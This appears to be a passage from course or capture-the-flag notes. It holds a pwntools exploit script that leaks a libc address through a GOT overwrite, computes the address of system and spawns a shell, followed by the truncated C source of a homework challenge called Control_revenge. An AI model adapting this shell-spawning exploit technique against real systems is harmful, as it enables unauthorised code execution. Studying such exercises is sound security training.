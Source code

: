 ```python
from pwn import *

#  io=remote('sv.duckll.tw',8888)
#  io=remote('localhost',4000)
io=process('./a.out')

elf=ELF('./a.out')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')

def send(key,value):
    io.sendafter(":",key)
    io.sendlineafter(":",str(value))

io.recvuntil("cmd in ")
cmd=int(io.recvline()[:-1],16)
log.info("cmd@{}".format(hex(cmd)))

#puts(got['fgets'])
send("0",elf.got['fgets'])
send("6",elf.plt['puts'])

leak=io.recvline()[:-1]
libc_fgets=u64(leak.ljust(8,'\x00'))
log.info("libc_fgets@{}".format(hex(libc_fgets)))

libc_base=libc_fgets-libc.symbols['fgets']
log.info("libc_base@{}".format(hex(libc_base)))

libc_system=libc_base+libc.symbols['system']
log.info("libc_system@{}".format(hex(libc_system)))

#system('sh')
send('0sh\x00',cmd+1)
send('6',libc_system)

io.interactive()
```

---

# 回家作業

Control_revenge

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <stdbool.h>
#include <stdlib.h>
#include <signal.h>
#include <time.h>
#define TIMEOUT 10

void handler(int signum){
    printf("Timeout\n");
    _exit(1);
}
void init_proc(){
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);
    signal(SIGALRM,handler);
```